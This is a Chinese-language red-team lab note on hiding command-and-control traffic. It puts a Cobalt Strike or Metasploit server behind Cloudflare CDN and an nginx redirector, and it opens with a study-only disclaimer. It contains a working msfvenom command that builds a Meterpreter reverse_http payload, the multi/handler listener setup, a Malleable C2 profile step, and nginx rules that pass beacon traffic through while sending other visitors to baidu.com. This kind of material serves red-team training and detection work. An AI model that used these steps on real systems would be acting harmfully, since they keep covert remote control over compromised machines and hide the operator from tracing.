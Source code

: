 # C2 实验

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# C2隐藏技术

## CDN

**准备**
- 一台 vultr centos7 机器
- 一个域名
- cloudflare 账号

**挂上 cdn**

在域名购买后配置，cf 中的域名解析，在 cf 中配置 A 记录, 记录 IP 为 vps 地址

名称随意,如下

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/1.png)

ping 测试

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/2.png)

104.21.49.218 是 cf 的IP

**端口限制**

Cloudflare 支持的 HTTP 端口是：
- 80
- 8080
- 8880
- 2052
- 2082
- 2086
- 2095

Cloudflare 支持的 HTTPS 端口是：
- 443
- 2053
- 2083
- 2087
- 2096
- 8443

**CS**

监听器配置域名

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/3.png)

生成payload,在靶机上执行

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/4.png)

显示的目标是 172.67.195.13 ,这个IP也是 cloudflare 的 ip

cs上也显示了目标

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/5.png)

但是这种情况还是会暴露域名的,如果域名备案或者有其他特征，依然会被溯源。

**MSF**

payload 使用 reverse_http
```
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=<域名> LPORT=80 -f exe > shell.exe
```

起监听
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_http
set lhost <域名>
set LPORT 80
exploit -j
```

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/6.png)

---

## 重定向

### nginx 反代 CS

**准备**
- 一台 vultr centos7 机器

**使用 Malleable C2 文件**

访问 https://github.com/threatexpress/malleable-c2 ,下载 jquery-c2.4.0.profile

上传至 CS 目录,检查可用性
```bash
chmod +x c2lint
./c2lint jquery-c2.4.0.profile
```

无误后,运行 cs

**cs 配置监听**

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/7.png)

**搭建 nginx**

```bash
wget https://nginx.org/download/nginx-1.16.1.tar.gz
tar -zxvf nginx-1.16.1.tar.gz
cd nginx-1.16.1/
./configure
make
make install
cd /usr/local/nginx/sbin
./nginx
```

注:源代码安装你的默认目录在 /usr/local/nginx 下,配置文件在 conf/ 中,不要搞错了

访问 IP,可以看到一个欢迎页

修改 nginx.conf
```diff
cd /usr/local/nginx/conf
vim nginx.conf

+ location ~*/jquery {
+     proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
+     proxy_pass  http://127.0.0.1:8080;
+ }

+ location / {
+     proxy_pass  http://www.baidu.com/;
+ }
```

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/8.png)

重启 nginx
```
cd /usr/local/nginx/sbin && ./nginx -s reload
```

这个时候访问 nginx 服务默认会转到 baidu, 加路径 /jquery-3.3.1.min.js

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/9.png)

生成 payload 测试一下

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/10.png)

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/11.png)

---

**Source & Reference**
- [反溯源-cs和msf域名上线](https://xz.aliyun.com/t/5728)
- [使用CDN隐藏c2流量](http://blog.sern.site:8000/2020/08/03/%E4%BD%BF%E7%94%A8CDN%E9%9A%90%E8%97%8Fc2%E6%B5%81%E9%87%8F/)
- [cobaltstrike配置nginx反向代理](https://mp.weixin.qq.com/s/OK0m9lln5-XjHHkWLwMxHg)
- [Cobalt Strike with CloudFlare](https://mp.weixin.qq.com/s/d6hu8YE-SGy-eruIWOwbXg)
- [博客使用Cloudflare和Nginx的相关配置](https://jayshao.com/cloudflare-nginx-ssl/)
- [利用apache mod_rewrite模块实现重定向技术来隐藏CS的teamserver的原理与实现](https://shanfenglan.blog.csdn.net/article/details/107789018)
